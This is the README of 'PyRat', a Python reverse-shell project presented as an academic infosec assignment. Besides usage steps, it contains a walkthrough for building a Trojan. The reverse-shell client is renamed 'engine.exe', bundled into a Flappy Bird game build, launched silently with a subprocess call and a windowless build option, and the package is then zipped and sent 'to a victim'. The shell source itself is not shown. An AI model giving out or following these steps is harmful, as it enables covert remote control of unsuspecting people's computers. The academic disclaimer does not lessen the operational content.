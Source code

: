 <h1 align="center">PyRat: ReverseShell</h1>
<p align="center">A Fully Undetectable Python 3 Reverse Shell Script</p>

<hr>
<h2 align="center">Disclaimer</h2>
<p align="center">
Developed by <b>Gerard Ian M. Balaoro</b><br>
In Partial Fulfillment on the Requirements for the Subject<br>
LIS 198: Information Security<br>
1st Semester, A.Y. 2018-2019<br>
University of the Philippines Diliman
<br><br>
<i>The author intended this to be used solely for academic purposes</i>
</p>
<hr>



## Usage

- Install required Python packages.

   ```
   pip install -r packages.txt
   ```

- Run the server script.

   ```
   python server.py --port 58777
   ```

- Configure server settings inside **config.ini**.

  ```json
  {
    "host":"127.0.0.1",
    "port":58777
  }

  ```
  
- Run client script in another computer.


## Building Binaries Using PyInstaller (Windows)

- Server script

  ```bash
  pyinstaller server.py -F -y -i shell.ico --name "RevShellServer" --specpath "build/" 
  ```
  
- Client script, use the `windowed` option to prevent the script from launching a command window

  ```bash
  pyinstaller client.py -F -y -i gear.ico --name "RevShellClient" --specpath "build/"
  pyinstaller client.py -F -y -i gear.ico --name "RevShellPayload" --specpath "build/" --windowed
  ```

## Building Trojan Executables (Windows)


### Injecting the client script inside the parent entry script.

It's faily easy to integrate this script to any Python application. In this example, we will use this [Flappy Bird Game](https://github.com/sourabhv/FlapPyBird) recreated by [Sourabh Verma](https://github.com/sourabhv/) using the PyGame library.

All we need to do is execute the client script silently whenever the game is initialized. We also need to think of an unsuspicous name
to use when compiling the client script, in this case, we're using **'engine.exe'**. This can be accomplished using Python's `subprocess` library:

```python
import subprocess
payload = subprocess.Popen('engine', shell = True, stdout= None, stderr = None, stdin = None)
```


### Building the Game Package Using cx_Freeze

This is a snippet of our setup script defining the executable binaries to be compiled:

```python
executables = [
    cx_Freeze.Executable(
        script          = 'flappy.py',
        base            = 'Win32GUI', 
        targetName      = 'flappybird.exe',
        icon            = 'assets/icons/flappy.ico',
        shortcutName    = 'FlappyBird'
    ),
    cx_Freeze.Executable(
        script          = 'client.py',
        base            = 'Win32GUI', 
        targetName      = 'engine.exe',
        icon            = 'assets/icons/gear.ico'
    )
]
```

Then execute the build script:

```
python setup.py build
```

Once done, we can now see our Trojan application inside the `build/` directory. All there's left to do is to change the configuration settings, compress this to a **zip** file and send it to a victim.

```
.
├── ...
├── config.ini  # Server settings
├── engine.exe  # Concealed payload
├── flappybird.exe 
└── ...
```

## Credits

- This script is based on [this article](https://null-byte.wonderhowto.com/how-to/reverse-shell-using-python-0163875/) from WonderHowTo.com
